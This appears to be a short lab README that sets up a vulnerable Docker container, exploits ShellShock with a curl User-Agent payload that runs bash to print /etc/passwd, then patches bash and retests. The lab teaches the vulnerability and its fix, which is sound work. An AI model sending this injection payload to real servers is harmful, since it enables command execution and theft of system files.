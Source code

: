 ## ShellShock Expliot
- Pull the docker image

	`docker pull sharathwe45/shellshock`
	
- Run the docker image

	`docker run -d -p 8080:80 --name shellshock sharathwe45/shellshock`
	
- Expliot the vulnerability

	`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://localhost:8080/cgi-bin/stats`
	
	You should see the password printing for you on the screen
	
- Fix the vulnerability

	- List the running containers
		
		`docker ps`
	
	- Exec into the docker
	
		`docker exec -it shellshock bash`
		
	- Upgrade the bash 
	
		`apt-get update && apt-get install --only-upgrade bash`
		
- Now retest the vulnerability

	`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/	passwd;'" http://localhost:8080/cgi-bin/stats`
	
	You should not see the password printing for you on the screen
